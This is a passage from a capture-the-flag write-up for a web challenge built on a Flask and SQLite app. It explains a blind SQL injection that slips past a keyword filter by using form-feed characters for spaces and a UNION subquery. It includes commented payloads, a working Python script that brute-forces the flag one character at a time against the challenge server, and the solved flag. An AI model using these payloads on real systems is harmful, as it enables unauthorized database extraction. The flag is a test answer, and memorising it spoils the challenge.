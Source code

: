 ```python!
        check = 1
    elif result == [] and ans != "" :
        check = 2

    return render_template("index.html", id=id, img=img, ans=ans, check=check)

if __name__ == "__main__":
    app.run()
```

The database gives many ID and after searching a little bit, I found the flag in ID 1337.
![image](https://hackmd.io/_uploads/S1MvgpZN6.png)
And we can inject into the id but also need to bypass the function `waf_cuc_chill`. 

**Idea:**
> - Inject id and create a new table name F that concat with table QuiBuu and choose the id 1337 to get the flag.
> - This need to brute the flag in url (Blind SQL Injection) to get the real flag in the column URL. In this challenge i use instr ([Link](https://www.sqlite.org/lang_corefunc.html)). 
> Note: I didn't see the author only filter `substring` and `subsrt` but left the `substr` until the author talk that to me after this CTF end lul.

Final exploit script:

```python!
import requests
import string

# payload = "'OR SELECT * FROM QuiBuu WHERE ID = 1 UNION SELECT 1,2,F.`3` FROM (SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F/*".replace(" ","%0c")
# payload = "abc'OR SELECT GROUP_CONCAT(F.`3`) FROM (SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F".replace(" ","%0c")
# payload = "a' OR (SELECT instr((SELECT GROUP_CONCAT(F.`3`) FROM ( SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F),\"ISITDTU\"))/*".replace(" ","%0c")
flag = ""
url = "http://20.198.223.134:1301/?id=1&ans="


while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
        payload = ("a' OR (SELECT instr((SELECT GROUP_CONCAT(F.`3`) FROM ( SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F),\""+flag+c+"\"))/*").replace(" ","%0c")
        r = requests.get(url + payload, stream=True) 
        if 'Haha QuiBuu!' in r.text:
            print(f" [+] Brute flag successfully : {flag+c}")
            flag += c
```
After i exploit in my local i get that:
![image](https://hackmd.io/_uploads/H1yY46bNa.png)
Done! Let's go!! 
Let take the flag from the real url. Flag in the google drive lul: [https://drive.google.com/file/d/1KWvSVho_Yl6kQ2f6iwGPudfh2pYPvDN1/view](https://drive.google.com/file/d/1KWvSVho_Yl6kQ2f6iwGPudfh2pYPvDN1/view)
Flag: `ISITDTU{I_SURE_U_QU1BUU_K3K3}`
